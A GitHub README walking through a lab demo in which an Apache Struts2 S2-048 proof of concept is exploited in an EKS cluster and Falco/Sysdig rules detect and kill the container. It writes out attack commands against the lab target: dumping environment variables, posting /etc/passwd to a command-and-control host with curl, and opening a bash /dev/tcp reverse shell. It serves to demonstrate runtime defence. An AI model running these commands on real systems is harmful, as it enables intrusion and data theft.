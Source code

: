 # struts_poc  
all credit to https://github.com/hook-s3c/apache-struts2-PoC, all I did is add a few things, bring it to life a bit more, EKS, etc.

![image](https://user-images.githubusercontent.com/4404271/153259381-52907b2b-ab78-4699-bde6-0cf7b35393a8.png)

There are sometimes holes in our runtimes. This is nothing more than good old Kali struts poc rev shell in a k8s cluster. Simple.  
![image](https://user-images.githubusercontent.com/4404271/155783401-56aeae38-1297-4838-b94e-a2ff31477d29.png)  
`Hints to get this working yourself before we dive into the Steps:`    

git clone https://github.com/hook-s3c/apache-struts2-PoC  
cd apache-struts2-PoC/  
docker build -t struts .  
docker run -it --rm -d -p 8080:8080 struts:latest  
docker tag struts:latest public.ecr.aws/v9f6i2g3/stuff:latest  

#public login to us-west-2 not supported by aws, no worries it's supported in us-east-1 so let's just do it there ;-)  

aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws  
docker push public.ecr.aws/v9f6i2g3/stuff:latest  
kubectl apply -f strust-deploy-and-service.yaml  
ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC  
  
kubectl get service -n struts  
NAME     TYPE           CLUSTER-IP       EXTERNAL-IP                                                              PORT(S)          AGE  
struts   LoadBalancer   10.100.144.108   12345.us-west-2.elb.amazonaws.com   8080:30524/TCP   153m

`Step 1`  

OK now we can attack, from the attacker "box" (actually just a tmux on my ubuntu box):  

cd ~/apache-struts2-PoC  
python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'env'  

...and we dump the environment from our struts box, to our attacker "box" and see it on STDOUT... not good!  

KUBERNETES_SERVICE_PORT_HTTPS=443  
KUBERNETES_SERVICE_PORT=443  
STRUTS_PORT_8080_TCP_PORT=8080  
STRUTS_SERVICE_PORT=8080  
HOSTNAME=struts-7d8c95bbbd-9p9pp  
JAVA_HOME=/usr/local/openjdk-8  
GPG_KEYS=05AB33110949707C93A279E3D3EFE6B686867BA6 07E48665A34DCAFAE522E5E6266191C37C037D42
etc..  


`Step 2`  
First, on the cc server, start some simple web server (you can find it in this repo) such as: 

python3 webserver.py  

`Step 3`  

Now let us force our exploitable struts instance to reach out to our webserver like this:  

python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'curl jumpbox.brett1.com:8080/hi_from_inside_the_container_in_our_cluster'

So that is an HTTP GET method. We can imagine, a workload needs to update or get some file, it may be permissable to let it do a GET, but we want to know when this happens.  
So, I wondered if I could modify an existing Falco rule to warn on curl GET? Yes! 
![image](https://user-images.githubusercontent.com/4404271/155773758-cf712d92-c7f1-42e9-913f-d34c5c2fd1b2.png)
![image](https://user-images.githubusercontent.com/4404271/155773836-8430f346-1858-41a6-ac30-5f589bb930da.png)


So, as you can see above, Falco allows us to get granular enough to tell the difference between a curl POST and a curl GET <Borat>very nice!</Borat>  
So, this GET shows up on our little CC web server, and logs in Sysdig Events as a warning about curl, naughty, but I'll allow it, this time!  

![image](https://user-images.githubusercontent.com/4404271/155774031-a30a2755-7851-4cbb-95b3-30c231ab38fd.png)
![image](https://user-images.githubusercontent.com/4404271/155774091-c6d9dcd4-939c-43a7-a981-0128516feace.png)

Here you can see Sysdig agent running in our EKS cluster warns on curl GET, but allows it:  
![image](https://user-images.githubusercontent.com/4404271/155774256-163a9e44-3f0f-41b4-bc9c-3b37e4ef7039.png)

`Step 4`  

OK now with our confidence sky high, through the roof, let's do a curl POST to send the passwd file to our CC server here we go:  
(But first, we must turn off our Sysdig policy to block POST or else we will never see it work)  
![image](https://user-images.githubusercontent.com/4404271/155774448-99285ef4-027f-43a8-b4bc-8712f9540372.png)

python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'curl -d @/etc/passwd jumpbox.brett1.com:8080'

And believe me, that works! We see the passwd file appearing in our CC server.  
![image](https://user-images.githubusercontent.com/4404271/155774611-879cc683-20db-4454-93df-2dab0de3eaab.png)
![image](https://user-images.githubusercontent.com/4404271/155774632-a9f44814-7eb7-4e11-87ed-407cdc604266.png)

OK this is beyond the pale, we cannot allow this.  
So we simply toggle our curl POST policy to ON, this has the Falco rule to fire iif there is a curl POST,  
and has an action to kill the container:  
![image](https://user-images.githubusercontent.com/4404271/155774866-38990415-0101-43f1-a6ab-8090bfd2f1fb.png)

here is that Falco rule - it is identical to the one for the curl GET, just without the NOT negation:  
![image](https://user-images.githubusercontent.com/4404271/155775341-b22453cb-bb5b-4448-9f15-1d79bbe4d170.png)

And it works! The container is killed so quickly, the passwd never shows up on the CC server (I know, I tested it probably a hundred times, and I have a replica set of two apache struts containers behind my LoadBalancer )  
![image](https://user-images.githubusercontent.com/4404271/155782926-87ce6b08-b549-4ac7-989f-80e1528077a2.png)

![image](https://user-images.githubusercontent.com/4404271/155775568-61d26d3e-4cfe-4c52-b914-afc3101079b0.png)

Here you see my first instance was selected by the LoadBalancer target group, and also, my second instance.  You can see the restarts and you can see the one instance is in error when I make this screenshot:  

![image](https://user-images.githubusercontent.com/4404271/155775818-dde27d24-5e23-4650-a3ce-d0794628db26.png)

and here you can see, nothing ever appears on my CC server, no passwd file is POSTed:  
![image](https://user-images.githubusercontent.com/4404271/155776198-0e438449-c168-4308-9fc3-38f26b9109f0.png)



`Step 5`  

So now to put the cherry on top, let's do a reverse shell:  
On our CC server let's just listen like so: nc -l 4242  

And then from our attack box let's do it:  
python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'bash -i >& /dev/tcp/52.206.9.54/4242 0>&1'

And if you like to watch animations here we are:  

![struts_rs](https://user-images.githubusercontent.com/4404271/153033823-b0d10a6b-4faa-4f0e-b8d1-8dde69cf1562.gif)

![image](https://user-images.githubusercontent.com/4404271/153435925-60ccd750-ad11-4f80-ad72-e27f01d75e09.png)

![image](https://user-images.githubusercontent.com/4404271/153497163-7b424dc2-3652-4798-9200-1606fd54876f.png)

![image](https://user-images.githubusercontent.com/4404271/153490296-a07fb685-8b04-48bb-8af0-7bff11cc2c21.png)


